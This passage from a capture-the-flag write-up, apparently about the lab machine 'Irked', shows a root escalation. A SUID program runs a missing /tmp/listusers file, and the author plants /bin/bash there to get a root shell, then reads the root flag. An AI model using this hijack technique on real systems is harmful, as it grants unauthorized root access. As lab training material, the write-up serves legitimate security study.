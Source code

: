 Let's run the programm an check what it does.

```
djmardov@irked:/usr/bin$ ./viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Dec 24 17:20 (:0)
djmardov pts/0        Dec 24 17:27 (10.10.14.250)
djmardov pts/1        Dec 24 17:37 (10.10.15.149)
djmardov pts/3        Dec 24 17:45 (10.10.15.234)
sh: 1: /tmp/listusers: not found
```

So, it says it's in development and should set and test user permissions.
But it seems, it ran into an error because the file `/tmp/listuser` is missing.

Well, let's create one. But put some cool content in there. ;)

```
djmardov@irked:/usr/bin$ echo /bin/bash > /tmp/listusers                                                                                             

djmardov@irked:/usr/bin$ chmod 777 /tmp/listusers

djmardov@irked:/usr/bin$ ./viewuser                                                                                                                  

This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Dec 24 17:20 (:0)
djmardov pts/0        Dec 24 17:27 (10.10.14.250)
djmardov pts/1        Dec 24 17:37 (10.10.15.149)
djmardov pts/3        Dec 24 17:45 (10.10.15.234)
djmardov pts/5        Dec 24 17:53 (10.10.12.6)

root@irked:/usr/bin#
```

Aaand we are root! =)

[[Top]](#top)

# <a name="RFlag"></a>Root Flag
So all that is left, is to get the `rootflag`.

```
root@irked:# cat /root/root.txt
8d8e9e8be6465***********
```

This is a box done!

[[Top]](#top)

# <a name="Learned"></a>Lessons Learned
I always forget to either scan for all ports or UDP ports when I can't find a first entry point.
This was my initial problem with this box. I had to go to the forums to get a hint. Which could
have been avoided.
